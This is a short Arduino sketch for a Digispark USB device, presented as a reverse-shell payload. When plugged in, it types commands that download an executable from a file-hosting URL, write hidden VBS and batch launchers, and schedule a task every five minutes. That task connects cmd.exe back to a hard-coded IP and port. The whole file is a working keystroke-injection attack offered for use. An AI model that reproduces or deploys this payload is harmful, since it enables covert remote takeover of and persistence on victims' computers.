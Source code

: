 This payload is a reverse shell that runs in the background every 5 minutes from 8:20 AM to 3:11 PM. 

  #include "DigiKeyboard.h"
void setup() {
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(300);
  DigiKeyboard.print("cmd");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(1000);
  DigiKeyboard.print("cd / & mkdir System & cd System & echo (wget 'https://a-21.1fichier.com/c39185452' -OutFile a.exe) > b.PS1 & powershell -ExecutionPolicy ByPass -File b.ps1");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(100);
  DigiKeyboard.print("echo Set WshShell = CreateObject('WScript.Shell') > c.vbs");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(50);
  DigiKeyboard.print("echo WshShell.Run chr(34) ^& C:/System/d.bat ^& Chr(34), 0 >> c.vbs");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(50);
  DigiKeyboard.print("echo Set WshShell = Nothing >>> c.vbs");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(50);
  DigiKeyboard.print("echo START /MIN a.exe IP PORT -e cmd.exe -d ^& exit > d.bat");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(100);
  DigiKeyboard.print("Schtasks /create /tn TaskSystem /tr C:/System/c.vbs /sc minute /mo 5 /st 08:20 /et 15:11");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(100);
  DigiKeyboard.print("START /MIN a.exe 192.168.254.73 9999 -e cmd.exe -d & exit");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
}
void loop() {
}